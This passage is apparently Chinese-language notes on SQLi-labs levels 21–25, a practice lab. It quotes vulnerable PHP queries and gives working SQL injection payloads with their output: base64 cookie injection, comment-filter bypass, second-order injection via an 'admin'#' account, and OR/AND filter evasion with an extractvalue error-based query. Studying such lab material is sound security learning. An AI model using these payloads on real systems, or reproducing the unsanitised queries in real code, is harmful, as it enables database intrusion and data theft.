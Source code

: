 - ** less 21 POST - Cookie Injection - Error Based - Base64 Encode - Single Quotes - String ** </br>
	setcookie('uname', base64_encode($row1['username']), time()+3600);
	$sql="SELECT * FROM users WHERE username=('$cookee') LIMIT 0,1";</br>
	对Cookie 进行了 base64处理 </br>
	uname=LTEnKSB1bmlvbiBzZWxlY3QgMSwoc2VsZWN0IHZlcnNpb24oKSksMyAj
	uname=-1') union select 1,(select version()),3 #</br>
	返回：</br>
  Your Login name:5.7.23-0ubuntu0.16.04.1</br>
	 Your Password:3</br>
	Your ID:1

- ** less 22 POST - Cookie Injection - Error Based - Base64 Encode - Double Quotes - String ** </br>
	对Cookie进行了base64编码，使用的双引号

----------------------------------------------------------------------

- ** less 23 GET - Error Based - Strip Comments ** </br>
	php中处理：</br>
	$reg = "/#/";</br>
	$reg1 = "/--/";</br>
	$replace = "";</br>
	$id = preg_replace($reg, $replace, $id); //将$reg替换为$replace</br>
	$id = preg_replace($reg1, $replace, $id);</br>
	$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";</br>
	因为过滤了注释符号，所以自己添加引号来闭合,同样可以使用报错/延时注入等</br>
	?id=-1%27%20union%20select%201%2c(select%20version())%2c3%20%27</br>
	返回：</br>
  Your Login name:5.7.23-0ubuntu0.16.04.1</br>
	Your Password:3

- ** less 24 POST - Second Order Injection \*Real treat\* - Stored Injections ** </br>
	本关为二次注入的示范例。二次注入也称为存储型的注入，就是将可能导致 sql 注入的字符先存入到数据库中， 当再次调用这个恶意构造的字符时， 就可以触发 sql 注入</br>
	php中:</br>
      $sql = "select count(\*) from users where username='$username'";
		  $res = mysql_query($sql) or die('You tried to be smart, Try harder!!!! :( ');
		  $sql = "insert into users ( username, password) values(\"$username\", \"$pass\")";
		  $sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
	先注册一个admin'#用户，更改其密码，实际上是更改的admin的密码

- **less 25 GET - Error Based - All your OR & AND Belong to us - String - Single Quotes**</br>
	$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)</br>
	$id= preg_replace('/AND/i',"", $id);		//Strip out AND (non case sensitive)</br>
	$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";</br>
	思路：使用union
	绕过过滤：
        （1）大小写变形 Or,OR,oR
		（2）编码，hex，urlencode
		（3）添加注释/*or*/
		（4）利用符号 and=&& or=||
	?id=1%27%20||%20%20extractvalue(1%2cconcat(0x7e%2cversion()))%23
	返回：XPATH syntax error: '~5.7.23-0ubuntu0.16.04.1'
